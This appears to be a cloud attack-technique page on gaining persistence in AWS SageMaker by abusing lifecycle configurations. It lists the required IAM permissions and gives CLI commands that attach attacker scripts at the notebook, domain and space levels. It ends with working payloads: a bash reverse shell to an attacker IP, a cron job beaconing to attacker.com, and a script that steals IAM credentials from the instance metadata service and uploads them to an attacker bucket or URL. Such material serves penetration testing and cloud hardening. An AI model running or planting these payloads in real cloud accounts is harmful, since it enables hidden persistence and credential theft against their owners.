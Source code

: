 # Aws Sagemaker Persistence

## Overview of Persistence Techniques

This section outlines methods for gaining persistence in SageMaker by abusing Lifecycle Configurations (LCCs), including reverse shells, cron jobs, credential theft via IMDS, and SSH backdoors. These scripts run with the instance’s IAM role and can persist across restarts. Most techniques require outbound network access, but usage of services on the AWS control plane can still allow success if the environment is in 'VPC-only" mode.
#### Note: SageMaker notebook instances are essentially managed EC2 instances configured specifically for machine learning workloads.

## Required Permissions
* Notebook Instances:
```
sagemaker:CreateNotebookInstanceLifecycleConfig
sagemaker:UpdateNotebookInstanceLifecycleConfig
sagemaker:CreateNotebookInstance
sagemaker:UpdateNotebookInstance
```
* Studio Applications:
```
sagemaker:CreateStudioLifecycleConfig
sagemaker:UpdateStudioLifecycleConfig
sagemaker:UpdateUserProfile
sagemaker:UpdateSpace
sagemaker:UpdateDomain
```

## Set Lifecycle Configuration on Notebook Instances

### Example AWS CLI Commands:
```bash
# Create Lifecycle Configuration*

aws sagemaker create-notebook-instance-lifecycle-config \
--notebook-instance-lifecycle-config-name attacker-lcc \
--on-start Content=$(base64 -w0 reverse_shell.sh)


# Attach Lifecycle Configuration to Notebook Instance*

aws sagemaker update-notebook-instance \
--notebook-instance-name victim-instance \
--lifecycle-config-name attacker-lcc
```

## Set Lifecycle Configuration on SageMaker Studio

Lifecycle Configurations can be attached at various levels and to different app types within SageMaker Studio.

### Studio Domain Level (All Users)
```bash
# Create Studio Lifecycle Configuration*

aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-studio-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)


# Apply LCC to entire Studio Domain*

aws sagemaker update-domain --domain-id <DOMAIN_ID> --default-user-settings '{
    "JupyterServerAppSettings": {
        "DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
    }
}'
```
### Studio Space Level (Individual or Shared Spaces)
```bash
# Update SageMaker Studio Space to attach LCC*

aws sagemaker update-space --domain-id <DOMAIN_ID> --space-name <SPACE_NAME> --space-settings '{
    "JupyterServerAppSettings": {
        "DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
    }
}'
```
## Types of Studio Application Lifecycle Configurations

Lifecycle configurations can be specifically applied to different SageMaker Studio application types:
* JupyterServer: Runs scripts during Jupyter server startup, ideal for persistence mechanisms like reverse shells and cron jobs.
* KernelGateway: Executes during kernel gateway app launch, useful for initial setup or persistent access.
* CodeEditor: Applies to the Code Editor (Code-OSS), enabling scripts that execute upon the start of code editing sessions.

### Example Command for Each Type:

### JupyterServer
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-jupyter-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)
```
### KernelGateway
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-kernelgateway-lcc \
--studio-lifecycle-config-app-type KernelGateway \
--studio-lifecycle-config-content $(base64 -w0 kernel_persist.sh)
```
### CodeEditor
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-codeeditor-lcc \
--studio-lifecycle-config-app-type CodeEditor \
--studio-lifecycle-config-content $(base64 -w0 editor_persist.sh)
```
### Critical Info:
* Attaching LCCs at the domain or space level impacts all users or applications within scope.
* Requires higher permissions (sagemaker:UpdateDomain, sagemaker:UpdateSpace) typically more feasible at space than domain level.
* Network-level controls (e.g., strict egress filtering) can prevent successful reverse shells or data exfiltration.

## Reverse Shell via Lifecycle Configuration

SageMaker Lifecycle Configurations (LCCs) execute custom scripts when notebook instances start. An attacker with permissions can establish a persistent reverse shell.

### Payload Example:
```
#!/bin/bash
ATTACKER_IP="<ATTACKER_IP>"
ATTACKER_PORT="<ATTACKER_PORT>"
nohup bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1 &
```
## Cron Job Persistence via Lifecycle Configuration

An attacker can inject cron jobs through LCC scripts, ensuring periodic execution of malicious scripts or commands, enabling stealthy persistence.

### Payload Example:
```
#!/bin/bash
PAYLOAD_PATH="/home/ec2-user/SageMaker/.local_tasks/persist.py"
CRON_CMD="/usr/bin/python3 $PAYLOAD_PATH"
CRON_JOB="*/30 * * * * $CRON_CMD"

mkdir -p /home/ec2-user/SageMaker/.local_tasks
echo 'import os; os.system("curl -X POST http://attacker.com/beacon")' > $PAYLOAD_PATH
chmod +x $PAYLOAD_PATH

(crontab -u ec2-user -l 2>/dev/null | grep -Fq "$CRON_CMD") || (crontab -u ec2-user -l 2>/dev/null; echo "$CRON_JOB") | crontab -u ec2-user -
```
## Credential Exfiltration via IMDS (v1 & v2)

Lifecycle configurations can query the Instance Metadata Service (IMDS) to retrieve IAM credentials and exfiltrate them to an attacker-controlled location.

### Payload Example:
```bash
#!/bin/bash
ATTACKER_BUCKET="s3://attacker-controlled-bucket"
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
ROLE_NAME=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME > /tmp/creds.json

# Exfiltrate via S3*

aws s3 cp /tmp/creds.json $ATTACKER_BUCKET/$(hostname)-creds.json

# Alternatively, exfiltrate via HTTP POST*

curl -X POST -F "file=@/tmp/creds.json" http://attacker.com/upload
```

